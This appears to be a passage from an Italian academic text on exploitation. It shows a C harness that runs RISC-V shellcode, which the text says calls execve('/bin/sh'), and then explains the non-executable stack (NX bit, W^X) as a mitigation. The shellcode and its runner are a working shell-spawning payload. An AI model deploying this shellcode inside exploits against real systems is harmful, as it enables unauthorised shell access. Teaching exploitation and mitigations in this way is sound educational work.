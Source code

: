\begin{verbatim}
#include <stdio.h>
#include <string.h>

char *SC = "\x01\x11\x06\xec"
           "\x22\xe8\x13\x04"
           "\x21\x02\xb7\x67"
           "\x69\x6e\x93\x87"
           "\xf7\x22\x23\x30"
           "\xf4\xfe\xb7\x77"
           "\x68\x10\x33\x48"
           "\x08\x01\x05\x08"
           "\x72\x08\xb3\x87"
           "\x07\x41\x93\x87"
           "\xf7\x32\x23\x32"
           "\xf4\xfe\x93\x07"
           "\x04\xfe\x01\x46"
           "\x81\x45\x3e\x85"
           "\x93\x08\xd0\x0d"
           "\x93\x06\x30\x07"
           "\x23\x0e\xd1\xee"
           "\x93\x06\xe1\xef"
           "\x67\x80\xe6\xff";

int main(void)
{
    char payload[76];

    memcpy(payload, SC, 76);

    fprintf(stdout, "Length: %d\n", strlen(SC));
    (*(void(*)()) payload) ();

return 0;
} 
\end{verbatim}
Lo shellcode RISC-V posto sopra è quindi utilizzato per chiamare la systemcall \textit{execve()} con l'argomento \textit{/bin/sh} nel registro \textit{a0}.\\
I due shellcode codificano istruzioni diverse in base all'architettura e sono scritti in formato esadecimale little-endian perché devono essere scritti direttamente sullo stack.\\
Usare gli shellcode è possibile però solo in condizioni di stack eseguibile. Una possibile mitigazione a questo exploit è infatti inserire protezioni nello stack a tempo di compilazione.\\
\newline
Una delle prime mitigation per proteggersi dagli shellcode è implementare nel programma compilato uno stack non eseguibile. In questo modo quello che viene messo nello stack a runtime può essere letto, scritto, ma non eseguito. Nella pratica questa mitigazione è attivata di default tramite una flag di compilazione che si chiama \textit{NX bit} \cite{appsec} che sfrutta la tecnica di \textit{Write XOR Execute (W$\oplus$X)} e permette ad un programma di avere ogni pagina dedicata al processo in esecuzione o scrivibile o eseguibile, ma mai entrambe le cose in contemporanea. In questo modo in seguito ad un buffer overflow è possibile scrivere nell'area di memoria interessata, che però non sarà eseguibile, oppure non sarà possibile scrivere mentre è eseguibile.\\
\newline
